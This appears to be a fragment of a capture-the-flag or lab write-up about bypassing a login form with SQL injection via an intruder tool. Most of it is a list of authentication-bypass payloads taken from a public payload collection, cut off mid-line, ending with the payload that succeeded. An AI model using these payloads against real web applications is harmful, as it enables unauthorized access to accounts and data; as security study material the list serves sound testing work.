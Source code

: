 Sent it to an intruder and added an sql  payload  from : https://github.com/payloadbox/sqlinjectionpayload-list  

```bash
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
' or 1=1 --
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admi
```
success payload `admin' or '1'='1`
